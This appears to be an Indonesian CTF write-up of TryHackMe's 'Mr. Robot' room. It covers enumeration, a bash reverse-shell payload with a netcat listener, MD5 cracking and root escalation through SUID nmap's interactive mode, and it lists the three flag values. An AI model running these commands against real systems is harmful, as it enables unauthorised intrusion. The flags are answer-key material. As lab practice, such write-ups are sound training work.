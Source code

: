 #  Mr. Robot CTF – TryHackMe

**Nama:** Jonathan Jethro  
**Tanggal:** 4 Mei 2025  
**Link Room:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

---

## Pendahuluan

Mr. Robot adalah CTF dari TryHackMe yang terinspirasi dari serial TV populer.  
Tujuan utama adalah mendapatkan ketiga flag tersembunyi melalui tahapan:

- Web enumeration  
- Eksploitasi login  
- Privilege escalation

---

## Enumerasi

### Nmap Scan

```bash
nmap -sC -sV -oA scans/initial 10.10.180.146
```
Port terbuka:

80 (HTTP)

443 (HTTPS)

Situs menampilkan tema Mr. Robot.

robots.txt
```bash
Copy
Edit
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Ditemukan wordlist fsocity.dic dan flag pertama.

## Eksploitasi Login
Setelah brute-force menggunakan fsocity.dic, ditemukan:

Username: elliot

Namun login berhasil dengan metode:

Menemukan halaman vulnerable upload.

Mengirim reverse shell (bash payload).

Mendengarkan dengan netcat.

```
# Reverse shell payload
bash -i >& /dev/tcp/10.9.0.247/4444 0>&1

# Listener (attacker)
nc -lvnp 4444
```
Shell berhasil dengan user: daemon.

## Privilege Escalation ke robot
Ditemukan file password:

```
cat /home/robot/password.raw-md5
```
Isi:
```
c3fcd3d76192e4007dfb496cca67e13b
```
Didekripsi menggunakan CrackStation:

Password: abcdefghijklmnopqrstuvwxyz

Login:
```
su robot
```
Berhasil menjadi user robot, ditemukan flag kedua.

## Privilege Escalation ke Root
User robot tidak punya akses sudo.
Lalu dicari file SUID:
```
find / -perm -4000 -type f 2>/dev/null
```
Ditemukan:
```
/usr/local/bin/nmap
```
Masuk ke mode interaktif:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```
Berhasil mendapatkan shell sebagai root dan mengambil flag ketiga.

## Flag Capture
Flag	Lokasi	Isi

1	/key-1-of-3.txt	073403c8a58a1f80d943455fb30724b9

2	/home/robot/key-2-of-3.txt	822c73956184f694993bede3eb39f959

3	/root/key-3-of-3.txt	04787ddef27c3dee1ee161b21670b4e4

## Kesimpulan
CTF ini mengajarkan teknik penting dalam pentesting:

- Enumerasi file tersembunyi dan wordlist

- Reverse shell manual

- Cracking password MD5

- Privilege escalation via SUID binary (nmap --interactive)

## Screenshots
Lihat folder screenshots/ untuk gambar pendukung flag.

## Versi PDF
Tersedia juga dalam format PDF untuk dilihat secara offline.
